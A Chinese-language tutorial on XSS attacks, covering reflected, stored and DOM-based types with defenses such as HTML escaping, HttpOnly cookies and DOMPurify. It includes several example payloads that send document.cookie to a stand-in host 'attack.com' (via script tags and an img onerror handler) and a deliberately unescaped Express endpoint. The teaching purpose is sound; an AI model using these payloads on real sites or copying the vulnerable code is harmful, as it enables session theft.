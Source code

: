 ```yaml
---
title: 什么是 XSS 攻击？
date: 2020-11-20 20:39:27
sidebar: 'auto'
tags:
  - xss
  - 浏览器安全
categories:
  - 浏览器
---
```


::: details 为什么 React 元素有一个 `$$typeof` 属性？

目的是为了防止 XSS 攻击。因为 Synbol 无法被序列化，所以 React 可以通过有没有 `$$typeof` 属性来断出当前的 element 对象是从数据库来的还是自己生成的。

如果没有 `$$typeof` 这个属性，react 会拒绝处理该元素。

:::

:::details 快速预览

反射型 XSS 攻击的手段就是诱导用户点击，这种攻击是一次性的，用户点击就中招，不点就没事，危害性不如存储型的大，但是小白用户很容易被盗号。

存储型 XSS 攻击范围广，受害面积大，且不容易及时发现和排查，一定要多加小心，对于用户输入的任何内容都不要完全信任，对于动态渲染的文本一定要进行转义。

DOM 型 XSS 攻击随着单页面应用普及和流行愈发常见，因为在单页面应用中 JS 经常操作 DOM，而 DOM 型 XSS 攻击就是利用了浏览器解析机制，因此很容易触发 DOM 型 XSS 攻击。不过好在大部分前端框架，例如 Vue、Angular 都内置 DOM 型 XSS 攻击的防御机制。

:::

`XSS` 也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对**用户的输入过滤不足**导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

**反射型**、**存储型**、**DOM 型**

## 反射型（url）

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

:::: tabs

::: tab 举个例子

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```js
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名，而攻击者拼接了一个极度恶意的链接：

```js
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。

:::

::: tab 代码实现

```js
const express = require('express');
const app = express();

app.get('/xss', (req, res) => {
  res.send(`你的搜索内容 ${req.query.search}`);
});

app.listen(3000, () => console.log(`请打开网址 http://localhost:3000/xss?search=Kobe`));
```

打开：`http://localhost:3000/xss?search=<script>alert(document.cookie)</script>`, 可以发现 cookie 被读取了，这是多么危险的事情

:::

::::

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，

```js
const tpl = req.query.q
  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`
  : `请输入搜索的电影`;
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```js
function encodeHTML(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&apos;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 `HttpOnly`，这样攻击者无法利用 JS 脚本获取到 Cookie 了。

## 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致.

## DOM 型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

[参考自 XSS 攻防实战](https://juejin.cn/post/6867184627393265677)
